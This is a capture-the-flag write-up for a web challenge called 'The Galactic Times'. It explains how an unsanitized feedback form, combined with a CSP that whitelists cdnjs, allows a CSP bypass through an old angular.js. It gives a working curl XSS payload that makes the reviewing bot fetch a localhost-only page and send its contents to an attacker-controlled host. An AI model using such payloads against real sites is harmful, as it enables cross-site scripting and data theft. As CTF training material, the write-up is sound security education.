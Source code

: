 # The Galactic Times

## Problem

The Galactic Times is a monthly Alien newspaper that focuses on news from around the Galaxy. This month's issue is focused on the Human race and contains some very controversial articles. The newspaper reportedly contains a restricted endpoint with some Alien secrets. Can you find a way to view the forbidden pages?

[Task file](files/web_the_galactic_times.zip)

## Solution

We are given source code of a website, where we can leave feedback. Feedback is checked automatically by the bot via puppeteer right after we submit feedback. Flag is hardcoded on the `/alien` webpage that's only accessible from localhost.

So, we have to make this feedback checking bot to visit this page and send the flag back to us. Feedback itself isn't sanitized, but the target page is protected by CSP. Luckily, it's configuration is vulnerable due to whitelisted `cdnjs.cloudflare.com` domain. It allows us to include vulnerable script that we can use to bypass CSP. One of those scripts is old `angular.js`, which allows us to basically inject any JS and it will be executed as a part of whitelisted script:

```sh
curl "http://task.domain/api/submit" -d "feedback=<script src='https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.1.3/angular.min.js'></script><div ng-app ng-csp>{{\$eval.constructor('a=new XMLHttpRequest();a.open(\"GET\", \"/alien\", false);a.send(null);document.location.href=\"https://evilguy.domain/?flag=\".concat(btoa(a.responseText.match(/{.*}/g)))')()}}</div>"
```

After a bit, bot kindly sends us the flag.

## TL;DR

 - Input is vulnerable to XSS
 - Page is protected by CSP
 - Use whitelisted domain to bypass policy
